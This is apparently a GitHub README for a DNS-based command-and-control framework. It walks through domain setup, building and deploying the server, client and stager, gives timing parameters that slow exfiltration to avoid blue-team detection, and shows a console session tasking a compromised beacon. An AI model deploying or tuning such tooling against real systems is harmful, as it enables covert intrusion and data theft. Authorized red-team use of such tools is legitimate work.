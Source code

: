 # 🕵️ Unkn0wnC2

DNS-based Command & Control framework operating as an authoritative DNS server with encrypted C2 communications.


This DNS C2 implementation's strengths comes from it's malleable C2 timing. 

Many C2s can utilize DNS for covert communications, but the exfil/task timings aren't usually adjustable without changing code directly. This C2 allows you to change the timing of exfil during the build process. Keeping your exfil slow is key to staying stealthy as common C2s send outputs/exfil quickly, alerting Blue Teams on large ammounts of DNS traffic in a short period of time.

![Unkn0wnC2](assets/unkn0wnc2.png)

---

## ⚠️ Legal Disclaimer

**FOR AUTHORIZED SECURITY TESTING ONLY**

This software is provided for educational and authorized security testing purposes only. Users must:

- Obtain explicit written authorization before deployment
- Comply with all applicable local, state, and federal laws
- Use only in controlled environments with proper authorization
- Understand that unauthorized access to computer systems is illegal

**The authors and contributors are not responsible for misuse or illegal activity. Use at your own risk.**

---

## 🚀 Quick Deployment

### 1. 🌐 Domain Setup
Configure NS records at registrar:
```
ns1.yourdomain.net  →  YOUR_SERVER_IP
ns2.yourdomain.net  →  YOUR_SERVER_IP
```
Add glue records at registrar, verify: `dig @8.8.8.8 NS yourdomain.net`

### 2. 🔨 Build
```bash
# Generate unique encryption key
openssl rand -base64 32

# Edit build_config.json - set encryption_key, domain, server IPs, and timings
# Don't you dare use Nano!
vim build_config.json

# You may need to remove Windows line endings and make the scripts executable
dos2unix build.sh && dos2unix Stager/build.sh
chmod +x build.sh Stager/build.sh

# Build all components with configuration
./build.sh
```

Output will be in `build/`

### 3. 🖥️ Deploy Server
```bash
# Copy to target server
scp build/dns-server-linux user@server:/opt/unkn0wnc2/
cd /usr/bin/unkn0wnc2

# Run (requires root for port 53, config embedded at build time)
sudo unkn0wnc2
```

### 4. 📡 Deploy Client
**Option A - Direct:** `./dns-client-linux`  
**Option B - Stager:** `./stager-linux-x64` (downloads client via DNS)

**Production:** Change encryption key, disable debug mode, use system DNS (stealth)

---

## 🏗️ Protocol Architecture

### Communication Flow
![Communications Flow](assets/communication_flow.png)

### 🔐 Encoding Pipeline

![Encoding Pipeline](assets/encoding_pipeline.png)

### 📨 Message Format

![Message Format](assets/message_format.png)

### 🎭 Authoritative DNS Server Logic Flow

![Authoritative DNS Server Logic Flow](assets/logic_flow.png)

### Malleable Timing (stager / client / exfil)

This project exposes several timing parameters that are intentionally malleable to tune stealth vs throughput. Defaults are set in build_config.json and in the Stager build defaults.

Key parameters and defaults (units):

- Stager
  - jitter_min_ms = 1000 (1.0 s)
  - jitter_max_ms = 2000 (2.0 s)
  - chunks_per_burst = 5
  - burst_pause_ms = 12000 (12 s)
  - retry_delay_seconds = 3
  - max_retries = 5

- Client check-in
  - sleep_min = 60 (60 s)
  - sleep_max = 120 (120 s)

- Client exfil
  - exfil_jitter_min_ms = 10000 (10 s)
  - exfil_jitter_max_ms = 30000 (30 s)
  - exfil_chunks_per_burst = 5
  - exfil_burst_pause_ms = 120000 (120 s)

How the pieces interact (approximate calculations):
- Number of bursts for N chunks: bursts = ceil(N / chunks_per_burst)
- Average jitter (ms) = (jitter_min_ms + jitter_max_ms) / 2
- Stager total time ≈ N * RTT_seconds_per_chunk + bursts * ((avg_jitter_ms + burst_pause_ms) / 1000)
  - Example (stager defaults, 100 chunks): avg_jitter = 1.5 s, burst pause = 12 s → per-burst pause ≈ 13.5 s
    - bursts = 20 → pause_time ≈ 270 s
    - transfer_time ≈ 100 s → total ≈ 370 s (~6 min 10 s)

- Exfil (client) will be significantly slower with larger jitter/pause values:
  - Example (exfil defaults, 100 chunks): avg_jitter = 20 s, burst pause = 120 s → per-burst pause ≈ 140 s
    - bursts = 20 → pause_time ≈ 2800 s (~46 min 40 s)
    - transfer_time ≈ 100 s → total ≈ 2900 s (~48 min 20 s)

### Build Output
```
build/
├── dns-server-linux
├── dns-client-linux
├── dns-client-windows.exe
└── Stager
    ├── stager-linux-x64
    └── stager-windows-x64.exe
```

---

## 🎮 C2 Console Commands

```
beacons              List all active beacons
task <id> <cmd>      Queue command for beacon
tasks                Show all tasks and status
result <task_id>     Display task output
logs                 Show log message count
status               Server status summary
clear                Clear console
exit                 Shutdown server
```

**Example Session:**
```bash
c2> beacons
ID    Hostname    Username    OS       Last Seen
a1b2  target-01   admin       Linux    2s ago

c2> task a1b2 whoami
[+] Task T1001 queued for beacon a1b2

c2> tasks
ID     Beacon  Command  Status     Created
T1001  a1b2    whoami   completed  5s ago

c2> result T1001
admin
```

---

**Version:** 0.1.0  
**License:** Use for authorized security testing only  

---


